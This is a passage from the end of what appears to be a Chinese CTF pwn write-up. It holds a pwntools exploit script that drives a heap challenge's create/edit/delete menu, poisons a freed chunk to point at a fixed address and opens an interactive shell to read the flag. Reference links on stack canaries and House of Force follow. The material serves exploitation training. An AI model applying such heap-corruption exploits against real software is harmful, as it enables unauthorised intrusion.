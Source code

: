 ```

def get_gdb(sh,stop=False):
    gdb.attach(sh)
    if stop :
        raw_input()

def creat(sh,index):
    sh.recvuntil('your choice?')
    sh.sendline('1')
    sh.recvuntil('idx?')
    sh.sendline(str(index))

def edit(sh,index,value):
    sh.recvuntil('your choice?')
    sh.sendline('2')
    sh.recvuntil('idx?')
    sh.sendline(str(index))
    sh.sendline(value)

def delete(sh,index):
    sh.recvuntil('your choice?')
    sh.sendline('3')
    sh.recvuntil('idx?')
    sh.sendline(str(index))

if __name__ == "__main__":
    sh = get_sh()
    creat(sh,0)
    delete(sh,0)
    edit(sh,0,p64(0x4040B0))
    creat(sh,1)
    creat(sh,2)
    edit(sh,2,p64(0)*2+p64(1))
    sh.recvuntil('your choice?')
    sh.sendline('6')
    sh.interactive()
    flag=get_flag(sh)
    log.success('The flag is '+flag)
```



## 0x9 后记

剩余的两道C++ PWN将在专门的文章中作为例题总结。



## 0x10 参考链接

[canary analysis – zet](http://www.hardenedlinux.org/2016/11/27/canary.html)

[为什么/lib32/libc.so.6中有两个“fopen”符号？](https://stackoom.com/question/cQ06/%E4%B8%BA%E4%BB%80%E4%B9%88-lib-libc-so-%E4%B8%AD%E6%9C%89%E4%B8%A4%E4%B8%AA-fopen-%E7%AC%A6%E5%8F%B7)

[Top chunk劫持：House of force攻击](https://www.anquanke.com/post/id/175630)
